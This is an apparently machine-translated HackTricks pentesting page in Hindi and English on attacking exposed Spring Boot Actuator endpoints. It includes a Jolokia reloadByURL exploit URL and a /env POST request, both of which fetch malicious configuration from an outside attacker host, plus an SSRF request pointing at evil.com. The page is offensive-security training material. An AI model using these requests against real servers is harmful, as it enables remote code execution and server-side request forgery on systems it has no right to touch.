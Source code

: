 # Spring Actuators

{{#include ../../banners/hacktricks-training.md}}

## **Spring Auth Bypass**

<figure><img src="../../images/image (927).png" alt=""><figcaption></figcaption></figure>

**From** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## Exploiting Spring Boot Actuators

**Check the original post from** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Key Points:**

- Spring Boot Actuators ऐसे एंडपॉइंट्स रजिस्टर करते हैं जैसे कि `/health`, `/trace`, `/beans`, `/env`, आदि। संस्करण 1 से 1.4 में, ये एंडपॉइंट्स बिना प्रमाणीकरण के उपलब्ध हैं। संस्करण 1.5 से आगे, केवल `/health` और `/info` डिफ़ॉल्ट रूप से गैर-संवेदनशील होते हैं, लेकिन डेवलपर्स अक्सर इस सुरक्षा को बंद कर देते हैं।
- कुछ Actuator एंडपॉइंट्स संवेदनशील डेटा को उजागर कर सकते हैं या हानिकारक क्रियाओं की अनुमति दे सकते हैं:
- `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, और `/heapdump`।
- Spring Boot 1.x में, एक्ट्यूएटर्स को रूट URL के तहत रजिस्टर किया जाता है, जबकि 2.x में, ये `/actuator/` बेस पथ के तहत होते हैं।

### **Exploitation Techniques:**

1. **Remote Code Execution via '/jolokia'**:
- `/jolokia` एक्ट्यूएटर एंडपॉइंट Jolokia लाइब्रेरी को उजागर करता है, जो MBeans तक HTTP पहुंच की अनुमति देता है।
- `reloadByURL` क्रिया का उपयोग करके लॉगिंग कॉन्फ़िगरेशन को एक बाहरी URL से फिर से लोड किया जा सकता है, जो अंधा XXE या कस्टम XML कॉन्फ़िगरेशन के माध्यम से रिमोट कोड निष्पादन का कारण बन सकता है।
- उदाहरण एक्सप्लॉइट URL: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`।
2. **Config Modification via '/env'**:

- यदि Spring Cloud Libraries मौजूद हैं, तो `/env` एंडपॉइंट पर्यावरणीय गुणों में संशोधन की अनुमति देता है।
- गुणों का हेरफेर करके कमजोरियों का लाभ उठाया जा सकता है, जैसे कि Eureka serviceURL में XStream deserialization की कमजोरी।
- उदाहरण एक्सप्लॉइट POST अनुरोध:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```

3. **Other Useful Settings**:
- गुण जैसे `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, और `spring.datasource.tomcat.max-active` का हेरफेर विभिन्न एक्सप्लॉइट्स के लिए किया जा सकता है, जैसे SQL injection या डेटाबेस कनेक्शन स्ट्रिंग्स को बदलना।

### **Additional Information:**

- डिफ़ॉल्ट एक्ट्यूएटर्स की एक व्यापक सूची [यहां](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt) पाई जा सकती है।
- Spring Boot 2.x में `/env` एंडपॉइंट गुण संशोधन के लिए JSON प्रारूप का उपयोग करता है, लेकिन सामान्य अवधारणा समान रहती है।

### **Related Topics:**

1.  **Env + H2 RCE**:
- `/env` एंडपॉइंट और H2 डेटाबेस के संयोजन का लाभ उठाने के विवरण [यहां](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database) पाए जा सकते हैं।
2.  **SSRF on Spring Boot Through Incorrect Pathname Interpretation**:

- Spring फ्रेमवर्क का HTTP पथनामों में मैट्रिक्स पैरामीटर (`;`) को संभालने का तरीका सर्वर-साइड अनुरोध धोखाधड़ी (SSRF) के लिए उपयोग किया जा सकता है।
- उदाहरण एक्सप्लॉइट अनुरोध:

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```

{{#include ../../banners/hacktricks-training.md}}
